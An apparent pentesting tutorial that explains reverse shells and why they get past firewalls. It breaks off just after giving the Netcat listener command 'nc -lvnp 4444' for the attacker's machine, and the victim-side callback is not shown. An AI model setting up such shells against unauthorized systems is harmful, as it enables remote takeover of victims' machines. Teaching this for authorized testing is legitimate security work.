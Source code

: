 # Reverse Shell: A Pentester's Guide

## Introduction

A **reverse shell** is a type of shell where the target machine connects back to the attacker's machine, allowing the attacker to gain remote access to the target system. This technique is commonly used in penetration testing to bypass firewalls or network restrictions that might block incoming connections.

In this guide, we will explain how to use a reverse shell and demonstrate how to set it up using **Netcat** (`nc`), one of the most popular tools for this purpose.

---

## What is a Reverse Shell?

A reverse shell is a shell in which the victim machine connects to the attacker’s machine. Once the connection is established, the attacker can issue commands on the victim's system, gaining remote control over it.

### Why Use a Reverse Shell?

- **Bypassing firewalls:** Reverse shells allow attackers to bypass firewalls or NAT that block inbound connections.
- **Remote access:** Once established, attackers can execute commands on the victim's machine and gain control.
- **Penetration Testing:** Ethical hackers use reverse shells to simulate attacks and identify vulnerabilities.

---

## Prerequisites

- **Attacker's machine:** This is the machine running the listener (the machine receiving the reverse shell).
- **Victim's machine:** This is the target machine from which the reverse shell will be initiated.

---

## Step-by-Step Guide

### Step 1: Set Up Netcat Listener on Attacker's Machine

1. Open a terminal on the attacker's machine.
2. Run the following command to start a listener on a specific port (e.g., port `4444`):

```bash
nc -lvnp 4444
